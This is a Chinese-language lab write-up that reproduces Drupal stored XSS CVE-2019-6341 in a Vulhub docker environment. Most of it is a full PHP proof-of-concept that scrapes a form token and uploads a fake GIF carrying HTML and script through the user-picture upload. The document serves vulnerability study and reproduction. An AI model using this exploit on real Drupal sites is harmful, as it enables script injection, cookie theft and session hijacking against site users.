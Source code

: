 # Drupal XSS漏洞 CVE-2019-6341

## 漏洞描述

影响软件：Drupal

方式：通过文件模块或者子系统上传恶意文件触发XSS漏洞

参考链接：[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)

效果：JS代码执行（Cookies 资料窃取、会话劫持、钓鱼欺骗、网页挂马等）

## 环境搭建

Vulhub执行如下命令启动drupal 8.5.0的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

该漏洞需要利用drupal文件模块上传文件的漏洞，伪造一个图片文件，上传，文件的内容实际是一段HTML代码，内嵌JS，这样其他用户在访问这个链接时，就可能触发XSS漏洞。

Drupal 的图片默认存储位置为 `/sites/default/files/pictures/<YYYY-MM>/`，默认存储名称为其原来的名称，所以之后在利用漏洞时，可以知道上传后的图片的具体位置。

使用PoC上传构造好的伪造GIF文件，PoC参考[thezdi/PoC](https://github.com/thezdi/PoC/tree/master/Drupal)的PoC。

如图，输入如下命令，即可使用`vulhub/drupal/CVE-2019-6341`目录下的poc构造样本并完成上传功能，第一个参数为目标IP 第二个参数为目标端口。

```bash
php cve-2019-6341-exp.php 192.168.11.1 8080
```

![image-20220222212248553](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222122602.png)

上传成功后，访问图片位置，即可触发 XSS 漏洞。

Tips:

1. 因为 Chrome 和 FireFox 浏览器自带部分过滤 XSS 功能，所以验证存在时可使用 IE 浏览器。
2. 访问的图片名称为_0的原因是因为 Drupal 的规则机制，具体原理见[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)

![image-20220222213034577](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222130628.png)

> 此处复现不不成功，虽然xss代码上传成功，但是没有被正确解析。
>
> 只有IE浏览器可以正确解析xss并弹框。

## 漏洞POC

```php
<?php
/*
usage: php poc.php <target-ip>

Date: 1 March 2019
Exploit Author: TrendyTofu
Original Discoverer: Sam Thomas
Version: <= Drupal 8.6.2
Tested on: Drupal 8.6.2 Ubuntu 18.04 LTS x64 with ext4.
Tested not wokring on: Drupal running on MacOS with APFS
CVE : CVE-2019-6341
Reference: https://www.zerodayinitiative.com/advisories/ZDI-19-291/

*/

$host = $argv[1];
$port = 80;

$pk =   "GET /user/register HTTP/1.1\r\n".
	"Host: ".$host."\r\n".
	"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n".
	"Accept-Language: en-US,en;q=0.5\r\n".
	"Referer: http://".$host."/user/login\r\n".
	"Connection: close\r\n\r\n";

$fp = fsockopen($host,$port,$e,$err,1);
if (!$fp) {die("not connected");}
fputs($fp,$pk);
$out="";
while (!feof($fp)){
  $out.=fread($fp,1);
}
fclose($fp);

preg_match('/name="form_build_id" value="(.*)"/', $out, $match);
$formid = $match[1];
//var_dump($formid);
//echo "form id is:". $formid;
//echo $out."\n";
sleep(1);

$data = 
"Content-Type: multipart/form-data; boundary=---------------------------60928216114129559951791388325\r\n".
"Connection: close\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"mail\"\r\n".
"\r\n".
"test324@example.com\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"name\"\r\n".
"\r\n".
"test2345\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"files[user_picture_0]\"; filename=\"xxx\xc0.gif\"\r\n".
"Content-Type: image/gif\r\n".
"\r\n".
"GIF\r\n".
"<HTML>\r\n".
"	<HEAD>\r\n".
"		<SCRIPT>alert(123);</SCRIPT>\r\n".
"	</HEAD>\r\n".
"	<BODY>\r\n".
"	</BODY>\r\n".
"</HTML>\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"user_picture[0][fids]\"\r\n".
"\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"user_picture[0][display]\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"form_build_id\"\r\n".
"\r\n".
//"form-KyXRvDVovOBjofviDPTw682MQ8Bf5es0PyF-AA2Buuk\r\n".
$formid."\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"form_id\"\r\n".
"\r\n".
"user_register_form\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"contact\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"timezone\"\r\n".
"\r\n".
"America/New_York\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_triggering_element_name\"\r\n".
"\r\n".
"user_picture_0_upload_button\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_triggering_element_value\"\r\n".
"\r\n".
"Upload\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_drupal_ajax\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[theme]\"\r\n".
"\r\n".
"bartik\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[theme_token]\"\r\n".
"\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[libraries]\"\r\n".
"\r\n".
"bartik/global-styling,classy/base,classy/messages,core/drupal.ajax,core/drupal.collapse,core/drupal.timezone,core/html5shiv,core/jquery.form,core/normalize,file/drupal.file,system/base\r\n".
"-----------------------------60928216114129559951791388325--\r\n";

$pk = 	"POST /user/register?element_parents=user_picture/widget/0&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1\r\n".
	"Host: ".$host."\r\n".
	"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0\r\n".
	"Accept: application/json, text/javascript, */*; q=0.01\r\n".
	"Accept-Language: en-US,en;q=0.5\r\n".
	"X-Requested-With: XMLHttpRequest\r\n".
	"Referer: http://" .$host. "/user/register\r\n".
	"Content-Length: ". strlen($data). "\r\n".
	$data;

echo "uploading file, please wait...\n";

for ($i =1; $i <= 2; $i++){
$fp = fsockopen($host,$port,$e,$err,1);
if (!$fp) {die("not connected");}
fputs($fp,$pk);
$out="";
while (!feof($fp)){
  $out.=fread($fp,1);
}
fclose($fp);

echo "Got ".$i."/2 500 errors\n";
//echo $out."\n";
sleep(1);
}

echo "please check /var/www/html/drupal/sites/default/files/pictures/YYYY-MM\n";

?>
```

